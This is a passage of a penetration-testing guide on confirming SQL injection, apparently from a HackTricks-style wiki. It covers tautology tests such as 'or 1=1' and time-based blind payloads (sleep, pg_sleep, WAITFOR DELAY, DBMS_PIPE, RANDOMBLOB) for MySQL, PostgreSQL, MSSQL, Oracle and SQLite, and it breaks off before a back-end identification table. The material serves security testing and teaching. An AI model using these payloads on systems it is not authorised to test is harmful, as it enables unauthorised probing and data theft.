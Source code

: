 Confirming with logical operations

A reliable method to confirm an SQL injection vulnerability involves executing a logical operation and observing the expected outcomes. For instance, a GET parameter such as ?username=Peter yielding identical content when modified to ?username=Peter' or '1'='1 indicates a SQL injection vulnerability.

Similarly, the application of mathematical operations serves as an effective confirmation technique. For example, if accessing ?id=1 and ?id=2-1 produce the same result, it's indicative of SQL injection.

Examples demonstrating logical operation confirmation:

page.asp?id=1 or 1=1 -- results in true
page.asp?id=1' or 1=1 -- results in true
page.asp?id=1" or 1=1 -- results in true
page.asp?id=1 and 1=2 -- results in false

This word-list was created to try to confirm SQLinjections in the proposed way:
811B
sqli-logic.txt
Confirming with Timing

In some cases you won't notice any change on the page you are testing. Therefore, a good way to discover blind SQL injections is making the DB perform actions and will have an impact on the time the page need to load.
Therefore, the we are going to concat in the SQL query an operation that will take a lot of time to complete:

MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))

In some cases the sleep functions won't be allowed. Then, instead of using those functions you could make the query perform complex operations that will take several seconds. Examples of these techniques are going to be commented separately on each technology (if any).
Identifying Back-end

The best way to identify the back-end is trying to execute functions of the different back-ends. You could use the sleep functions of the previous section or these ones (table from payloadsallthethings:
